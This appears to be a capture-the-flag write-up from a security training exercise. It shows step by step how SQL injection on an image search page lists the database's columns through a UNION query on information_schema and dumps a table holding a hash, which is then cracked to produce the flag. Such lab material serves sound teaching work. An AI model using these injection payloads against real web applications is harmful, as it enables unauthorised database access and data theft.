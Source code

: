 # SQL_Injection_images

## SQL_Injection_explain

SQL injection attack refers to the operation that the attacker wants by constructing special input as a parameter and passing it into the web application, changing the semantics of the original SQL statement.

## Do_similary_thing_like_SQL_injection_members

    # input:
    1 or 1=1

    # result:
    ID: 1 or 1=1 
    Title: Hack me ?
    Url : borntosec.ddns.net/images.png

## Step_2

    # input:
    1 or 1=1 union select column_name, table_name from information_schema.columns where table_schema=database()

    # result:
    ID: 1 or 1=1 union select column_name, table_name from information_schema.columns where table_schema=database(); 
    Title: list_images
    Url : id

    ID: 1 or 1=1 union select column_name, table_name from information_schema.columns where table_schema=database(); 
    Title: list_images
    Url : url

    ID: 1 or 1=1 union select column_name, table_name from information_schema.columns where table_schema=database(); 
    Title: list_images
    Url : title

    ID: 1 or 1=1 union select column_name, table_name from information_schema.columns where table_schema=database(); 
    Title: list_images
    Url : comment

## Step_3

    # input:
    1 or 1=1 union select null, concat(id, url, title, comment) from list_images 

    # result:
    Title: 5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

## Get_the_flag

    1928e8083cf461a51303633093573c46 -> MD5 hash -> after crack -> albatroz
    albatroz -> ater SHA256 -> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

## Solutions